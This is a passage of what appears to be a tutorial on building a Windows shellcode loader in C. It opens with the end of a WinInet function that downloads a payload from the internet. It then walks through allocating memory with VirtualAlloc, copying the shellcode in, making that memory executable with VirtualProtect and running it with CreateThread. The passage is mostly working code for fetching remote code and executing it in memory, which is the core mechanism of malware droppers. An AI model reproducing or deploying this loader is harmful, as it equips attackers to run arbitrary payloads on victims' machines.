 ```c
		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
		memset(pTmpBytes, '\0', dwBytesRead);

		if (dwBytesRead < 1024){
			break;
		}
	}


	*pPayloadBytes = pBytes;
	*sPayloadSize  = sSize;

_EndOfFunction:
	if (hInternet)
		InternetCloseHandle(hInternet);
	if (hInternetFile)
		InternetCloseHandle(hInternetFile);
	if (hInternet)
		InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	if (pTmpBytes)
		LocalFree(pTmpBytes);
	return bSTATE;
}
```

2 —We will allocate memory of the payload size using VirtualAlloc with read and write permissions. Subsequently, we copy the payload bytes to the allocated memory using memcopy and memset. The memory permission is then modified to allow execution with VirtualProtect. Following this, a thread is created using CreateThread, and WaitForSingleObject is employed to ensure the process continues until the entire payload has been executed.

```c
PVOID pShellcodeAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[*] Allocated Memory in 0x%p \n", pShellcodeAddress);
    getchar();

    memcpy(pShellcodeAddress, pPayloadBytes, sPayloadSize);
    memset(pPayloadBytes, '\0', sPayloadSize);

    printf("[*] Payload Writed in Memory Allocated...");

    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    HANDLE hThread = CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(pShellcodeAddress), pShellcodeAddress, 0, NULL);
    if (hThread == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return -1;
    }

  	WaitForSingleObject(hThread, INFINITE);
    return 0;
```